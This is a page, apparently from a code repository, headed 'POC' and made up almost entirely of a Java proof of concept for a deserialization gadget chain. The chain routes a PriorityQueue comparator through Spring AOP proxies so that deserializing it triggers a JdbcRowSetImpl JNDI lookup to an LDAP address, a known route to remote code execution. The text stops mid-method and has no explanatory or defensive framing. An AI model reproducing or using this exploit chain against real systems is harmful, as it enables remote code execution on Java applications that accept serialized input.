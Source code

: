 #### POC

```
import Utils.Util;
import com.sun.rowset.JdbcRowSetImpl;
import org.aopalliance.aop.Advice;
import org.aopalliance.intercept.MethodInterceptor;
import org.springframework.aop.aspectj.AbstractAspectJAdvice;
import org.springframework.aop.aspectj.AspectJAroundAdvice;
import org.springframework.aop.aspectj.AspectJExpressionPointcut;
import org.springframework.aop.aspectj.SingletonAspectInstanceFactory;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.support.DefaultIntroductionAdvisor;

import java.lang.reflect.*;
import java.util.*;

public class Test {
    public static void main(String[] args) throws Exception {

        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:50389/3fa0f4");
        Method method=jdbcRowSet.getClass().getMethod("getDatabaseMetaData");
        System.out.println(method);
        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(jdbcRowSet);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);
        Proxy proxy1 = (Proxy) getAProxy(advice,Advice.class);
        Proxy finalproxy=(Proxy) getBProxy(proxy1,new Class[]{Comparator.class});
        PriorityQueue PQ=new PriorityQueue(1);
        PQ.add(1);
        PQ.add(2);

        Util.setFieldValue(PQ,"comparator",finalproxy);
        Util.setFieldValue(PQ,"queue",new Object[]{proxy1,proxy1});
        System.out.println(Util.serialize(PQ));
        Util.deserialize(Util.serialize(PQ));


    }
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
        return proxy;
    }
    public static Object getAProxy(Object obj,Class<?> clazz) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;

        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class, Advice.class}));
        advisedSupport.addAdvisor(advisor);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
```